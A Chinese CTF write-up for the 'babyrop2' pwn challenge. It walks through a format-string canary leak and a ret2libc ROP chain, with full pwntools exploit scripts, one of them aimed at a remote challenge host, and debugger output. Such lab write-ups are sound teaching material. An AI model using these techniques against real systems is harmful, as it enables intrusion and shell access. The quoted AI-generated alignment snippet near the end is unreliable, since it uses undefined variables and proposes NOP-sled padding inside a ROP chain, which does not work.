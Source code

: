 ```yaml
---
title: 'bjdctf_2020_babyrop2'
date: 2024-01-01 13:00:00 +0800
categories: [ctf,pwn]
tags: [format,canary,64bit,leak_libc]
---
```


```shell
bamuwe@qianenzhao:~$ checksec bjdctf_2020_babyrop2
[*] '/home/bamuwe/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`canary`保护机制:在局部变量和返回地址间插入一个随机数,通过检测这个随机数判断是否存在栈溢出或修改.

![image-20240101130851524](../assets/img/old_imgs/image-20240101130851524.png)

![image-20240101130915897](../assets/img/old_imgs/image-20240101130915897.png)

> 红框位置就是`canary`值存在的位置

![image-20240101131022383](../assets/img/old_imgs/image-20240101131022383.png)

> `gift`函数

![image-20240101131040053](../assets/img/old_imgs/image-20240101131040053.png)

> `vuln`函数

1. 存在`canary`机制考虑怎么泄露`canary`,在`gift`函数中存在一个格式化字符漏洞可以利用

   - 因为这里对输入长度做了限制,所以不能用常规`%8x%8x%8x...`来泄露偏移量,但是我们可以用`%n$p`来泄露偏移量,`n`是偏移的位置,`$p`是打印该位置上的值

     ```python
     from pwn import *
     context.log_level = 'debug'
     io = process('./bjdctf_2020_babyrop2')
     io.sendlineafter(b"I'll give u some gift to help u!\n",b'A%6$p')
     io.interactive()
     ```

     ```shell
     [DEBUG] Received 0x44 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%6$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x36 bytes:
         b'A0x7024362541\n'
         b'Pull up your sword and tell me u story!\n'
     A0x7024362541
     Pull up your sword and tell me u story!
     $
     ```

     > 当`n`等于`6`时看到了`0x41`,确定偏移为`6`

   - 根据上面提到的,我们知道`canary`在栈的末尾,所以把偏移往后移一位就可以得到`canary`的值

     ```shell
     [DEBUG] Received 0x23 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
     [DEBUG] Received 0x21 bytes:
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%7$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x13 bytes:
         b'A0x6b3d526f8ba61400'
     $
     ```

     ```shell
     pwndbg> stack 0x20
     00:0000│ rsp 0x7ffd2b15b170 ◂— 0x7024372541 /* 'A%7$p' */
     01:0008│     0x7ffd2b15b178 ◂— 0x6b3d526f8ba61400
     02:0010│ rbp 0x7ffd2b15b180 —▸ 0x7ffd2b15b1a0 ◂— 0x1
     03:0018│     0x7ffd2b15b188 —▸ 0x400905 (main+43) ◂— mov eax, 0
     ```

2. 获得了`canary`之后就是常规的`64`位泄露`libc`,但是在填充栈的时候有一些不同,我们要注意覆盖`canary`的位置

   - ![image-20240101132652204](../assets/img/old_imgs/image-20240101132652204.png)

     > 通过ida我们看到`buf`的栈空间为`0x18`

     栈填充部分如下

     | rbp  |         |        |       |
     | :--: | :-----: | :----: | :---: |
     |      | padding |        | 0x18  |
     |      |         | canary | value |
     |      |         | leave  |  0x8  |
     |      |         |  ret   |       |

     泄露`libc`完整`payload`

     | rbp  |           |        |       |            |
     | :--: | :-------: | :----: | :---: | :--------: |
     |      |  padding  |        | 0x18  |            |
     |      |           | canary | value |            |
     |      |           | leave  |  0x8  |            |
     |      |  pop_rdi  |  ret   |       | ROPgadgets |
     |      | puts_got  |  ret   |       |            |
     |      | puts_plt  |  ret   |       |            |
     |      | vuln_addr |  ret   |       |            |

3. 得到`libc`构造`payload`得到`shell`

```python
#远程脚本
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node5.buuoj.cn',26462)
elf = ELF('./bjdctf_2020_babyrop2')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
Liboffset = puts_addr - Lib.dump('puts')
sys_addr = Liboffset + Lib.dump('system')
bin_sh_addr = Liboffset + Lib.dump('str_bin_sh')
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(sys_addr)+p64(elf.sym['main'])
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

```python
#本地脚本
from pwn import *
context.log_level = 'debug'
#io = process('./bjdctf_2020_babyrop2')
io = gdb.debug('./bjdctf_2020_babyrop2','break vuln')
elf = ELF('./bjdctf_2020_babyrop2')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))
Liboffset = puts_addr - Lib.sym['puts']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(0x00000000004005f9)+p64(sys_addr)
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

由于我本地环境是`Wsl-Ubuntu-22.04`会出现本地打不通的情况,所以需要在调用`system`前加上`ret`即`+p64(0x00000000004005f9)`填充内存空间,具体原因参考如下

```
环境差异：
•	libc版本不同：不同版本的glibc库在处理函数调用时可能存在差异，如系统调用、格式化字符串解析、堆管理等。例如，上述信息提及，glibc 2.27及更高版本的system()函数内部实现可能使用了xmm寄存器，要求内存对齐，如果本地环境与远程环境的glibc版本不一致，可能导致利用失败。
```

通过调试可以发现,本地不通确实是因为调用了`xmm`寄存器
```shell
─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
   0x7faee5924967 <do_system+103>    mov    qword ptr [rsp + 188h], 0
 ► 0x7faee5924973 <do_system+115>    movaps xmmword ptr [rsp], xmm1
   0x7faee5924977 <do_system+119>    lock cmpxchg dword ptr [rip + 1cae01h], edx
   0x7faee592497f <do_system+127>    jne    7faee5924c30h                 <do_system+816>
```

我们需要让`system`的地址正好落在`16`字节的栈边界,从根本(原理)上改变是很困难的,但是可以通过填充`rop`比如`nop,ret`来填充需要的字节.

解决办法:在`system`函数地址前加一个或多个`ret`尝试打通本地

参考通义千问回答的代码:

>在使用pwntools编写exploit脚本时，确实可以通过ROP（Return-Oriented Programming）技术来实现对齐。如果你知道目标地址必须是对齐的，例如16字节对齐，那么在构造ROP链的过程中，可以插入适当的NOP sled或者找到内存中一个合适的返回指令片段，确保payload中的关键地址（比如system函数的地址或其所在plt/got表项的地址）在其之前填充足够的字节以达到对齐要求。
>
>例如，在ropchain构建过程中：
>
>```python
>
>from pwn import *
>
># 假设已经得到了elf、libc等上下文信息
>
>context.arch = 'amd64'  # 设置架构为x86_64
>
># ... 省略其他代码，如连接到远程服务器、获取shellcode等
>
># 找到system gadget和其他需要使用的gadgets
>pop_rdi = elf.gadgets['pop rdi; ret']  # 用于放置参数
>syscall = elf.plt['syscall']  # 或者直接用系统调用号对应的gadget
>
># 确保system地址是16字节对齐的
>system_addr = next((addr for addr in gadgets if addr % 16 == 0 and gadgets[addr].endswith('ret')), None)
>if not system_addr:
>    # 如果没有找到对齐的system gadget，可能需要创建一个填充的ROP链
>    padding = b'\x90' * (16 - (next_gadget_address % 16))  # 使用NOP sled填充
>    rop += padding
>    system_addr = next_gadget_address + len(padding)
>
>rop += p64(pop_rdi)  # 将"/bin/sh"字符串地址放入rdi
>rop += p64(binary.search('/bin/sh'))  # "/bin/sh"的地址
>rop += p64(system_addr)  # 调用system gadget
>
># 发送ROP链
>payload = b'A'*overflow_size + rop
>io.send(payload)
>```
>
>
>请注意上述代码仅为示例，实际利用中需要根据具体环境和栈布局来调整。在实际场景中，如果是因为system()函数内部实现要求xmm寄存器对齐，则通常会检查并保证栈上相关数据的对齐，而不仅仅是system函数本身的地址对齐。在这种情况下，你可能需要更深入地分析程序行为，并且可能需要结合额外的技术手段（如寻找特定类型的gadget）来构造满足条件的ROP链。
